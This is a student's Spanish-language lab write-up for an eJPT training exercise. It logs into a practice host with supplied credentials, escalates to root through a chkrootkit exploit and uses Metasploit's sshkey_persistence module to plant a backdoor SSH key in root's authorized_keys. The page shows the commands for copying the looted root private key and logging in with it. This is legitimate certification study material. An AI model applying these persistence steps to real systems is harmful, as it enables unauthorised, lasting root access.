

repository: scarlgyx/scarlgyx-cybersecurity · page: certs/ejpt/linux-post-exploitation/04-establishing-persistence-on-linux/index.html · generator: mkdocs

# Establishing Persistence on Linux

**Objective:** Escalate to the root user on the target machine and retrieve the flag!
| Username | Password | | jackie | password |

Comprobamos que hay un proceso corriendo el binario /bin/chrootkit

![](../../../assets/img/Pasted_image_20260917132445.png)

jackie

Creamos una sesión con *scanner/ssh/ssh_login*

![](../../../assets/img/Pasted_image_20260917133011.png)

Usamos exploit de chkrootkit para escalar privilegios

![](../../../assets/img/Pasted_image_20260917133712.png)

- Ahora tendremos que crear la persistencia de la que habla el ejercicio

Usaremos el módulo *post/linux/manage/sshkey_persistence*

![](../../../assets/img/Pasted_image_20260917133834.png)

Importante poner **CREATESSHFOLDER** a true
```bash
set CREATESSHFOLDER true
```

![](../../../assets/img/Pasted_image_20260917134009.png)

Ahora se habrá añadido la pubkey de nuestro usuario en kali al *authorized_keys* de root en la máquina víctima

Nos copiamos la private key de root
```bash
cp /root/.msf4/loot/20260917170938_default_192.65.16.3_id_rsa_197306.txt .
chmod 600 /root/.msf4/loot/20260917170938_default_192.65.16.3_id_rsa_197306.txt
```

Accedemos como root de manera persistente
```bash
ssh root@demo.ine.local -i /root/.msf4/loot/20260917170938_default_192.65.16.3_id_rsa_197306.txt
```

![](../../../assets/img/Pasted_image_20260917134341.png)

root
